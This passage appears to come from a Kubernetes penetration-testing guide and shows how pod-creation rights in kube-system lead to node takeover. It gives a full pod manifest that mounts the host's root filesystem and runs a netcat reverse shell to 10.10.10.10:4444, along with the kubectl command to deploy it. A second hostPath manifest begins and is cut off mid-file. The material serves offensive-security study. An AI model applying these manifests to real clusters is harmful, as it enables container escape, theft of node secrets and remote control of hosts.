 ```yaml
  hostNetwork: true
```

In the previous image note how the _bootstrap-signer service is used in_ `serviceAccountname`_._

So just create the malicious pod and expect the secrets in port 6666:

![](<../../.gitbook/assets/image (464).png>)

### **Pod Creation & Escape - Mount Root**

Having Pod create permissions over kube-system you can also be able to mount directories from the node hosting the pods with a pod template like the following one:

{% code title="mount_root.yaml" %}
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: stealetc-pod
spec:
  containers:
  - name: givemeyouretc
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", "nc 10.10.10.10 4444 -e /bin/sh"]
    volumeMounts:
    - mountPath: /mnt
      name: volume
  volumes:
  - name: volume
    hostPath:
      path: /
```
{% endcode %}

Create the pod with:

```bash
kubectl --token $token create -f mount_root.yaml
```

And capturing the reverse shell you can find the `/` directory (the entire filesystem) of the node mounted in `/mnt` inside the pod.

**Instead of getting a reverse shell you might just wanto to execute a pod using kubectl with the filesystem mounted and get a shell on it:**

1.  Create a "hostpath volume mount" `pod` manifest.

    ```
    cat > hostpath.yml <<EOF
    ---
    apiVersion: v1
    kind: Pod
    metadata:
      name: hostpath
    spec:
      containers:
      - name: hostpath
        image: busybox:latest
        command:
          - sleep
          - "86400"